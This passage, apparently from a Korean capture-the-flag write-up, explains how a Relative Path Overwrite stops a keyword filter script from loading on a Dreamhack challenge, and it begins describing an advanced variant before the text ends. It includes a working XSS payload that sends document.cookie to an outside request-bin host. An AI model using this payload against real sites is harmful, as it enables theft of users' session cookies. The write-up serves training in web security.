 - DOCUTYPE가 없다
- <script src="filter.js"></script> : 상대경로로 filter.js를 불러온다

<br>

filter.js의 내용은 아래와 같다.

```
var filter = ["script", "on", "frame", "object"];
```

<br>

필터링에 걸리지 않으면 `param_elem.innerHTML = param` 을 수행한다.

<br>

RPO를 통해 상대경로인 filter.js 자체를 불러오지 못하도록 할 수 있다. 

<img src="https://github.com/user-attachments/assets/8fae6dad-2121-475c-a275-913aebb04dc9" width=600>

<br>

기존대로 하면 filter.js가 불러와진다.

<br>

그러나 경로를 index.php 로 변경하면 경로를 index.php/filter.js로 인식하여 index.php를 불러오게 된다.

<img src="https://github.com/user-attachments/assets/227541f2-58b2-439a-afab-5064d0275c30" width=600>

<br>

아래 명령을 report 페이지에 보내면 request bin 에 플래그가 도착한다. +는 공백처리되기 때문에 %2B로 적어주어야 한다.

<br>

```jsx
/index.php/?page=vuln&param=<img src=x onerror="location.href='https://sfbwozt.request.dreamhack.games?'%2bdocument.cookie">
```

<br>

---

### 응용2 - 드림핵 **Relative Path Overwrite Advanced**

filter.js 위치가 deploy\src 에서 `deploy\src\static`으로 바뀌었다. 

<br>

vuln.php와 동일한 경로에 filter.js가 없기 때문에 <script src="filter.js"></script>는 실패하고 아래 조건문에서 nope가 뜨게된다. 

```php
if (typeof filter === 'undefined') {
    param = "nope !!";
}
```

<br>
